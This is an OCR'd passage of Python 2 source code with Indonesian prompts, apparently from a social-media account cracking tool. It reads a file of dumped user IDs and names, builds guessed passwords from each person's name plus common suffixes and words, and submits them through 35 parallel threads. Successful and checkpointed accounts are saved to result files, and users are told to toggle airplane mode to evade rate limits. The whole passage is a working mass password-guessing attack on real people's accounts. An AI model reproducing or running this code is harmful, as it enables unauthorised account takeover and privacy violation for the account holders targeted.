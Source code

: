         print("%s[%sâ€¢%s]%s Hasil Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(crack, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,P))
    elif ___metode___ in ['5','05']:
        print("\n%s[%s1%s]%s Auto Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Auto Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Auto Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n[*] Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Hasil Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Hasil Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(api, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai]%s"%(B,H,B))
    elif ___metode___ in ['6','06']:
        print("\n%s[%s1%s]%s Auto Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Auto Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Auto Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']: